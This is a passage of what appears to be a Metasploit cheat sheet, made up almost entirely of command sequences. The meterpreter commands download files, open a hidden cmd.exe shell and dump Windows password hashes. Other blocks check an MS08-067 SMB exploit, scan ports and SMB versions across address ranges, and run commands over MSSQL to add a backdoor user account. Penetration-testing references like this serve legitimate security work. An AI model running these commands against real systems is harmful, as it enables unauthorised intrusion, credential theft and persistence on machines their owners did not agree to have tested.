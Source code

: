```text
meterpreter > download c:\\boot.ini
meterpreter > execute -f cmd.exe -i -H
```

Dump Hashes from Remote Machine:

```text
meterpreter > run post/windows/gather/hashdump
```

## Metasploit - More specific scans and targeted attacks

Check to see if a target is exploitable w/o exploiting the machine:

```text
msf > use exploit/multi/samba/ms08_067_netapi
msf > set RHOST 172.16.194.134
msf > set RPORT 445
msf > show options
msf > check
```

Port Scanning:

```text
msf > use auxiliary/scanner/portscan/syn
msf auxiliary(syn) > show options
msf auxiliary(syn) > set INTERFACE eth0
msf auxiliary(syn) > set PORTS 80
msf auxiliary(syn) > set RHOSTS 192.168.1.0/24
msf auxiliary(syn) > set THREADS 50
msf auxiliary(syn) > run
```

SMB Scan:

```text
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(smb_version) > set RHOSTS 192.168.1.200-210
msf auxiliary(smb_version) > set THREADS 11
msf auxiliary(smb_version) > run
```

Search and exploit MSSQL:

```text
msf > search mssql
msf > use auxiliary/scanner/mssql/mssql_ping
msf auxiliary(mssql_ping) > set RHOSTS 10.211.55.1/24
msf auxiliary(mssql_ping) > exploit

msf auxiliary(mssql_login) > use auxiliary/admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > show options
msf auxiliary(mssql_exec) > set RHOST 10.211.55.128
msf auxiliary(mssql_exec) > set MSSQL_PASS password
msf auxiliary(mssql_exec) > set CMD net user bacon ihazpassword /ADD
msf auxiliary(mssql_exec) > exploit
```
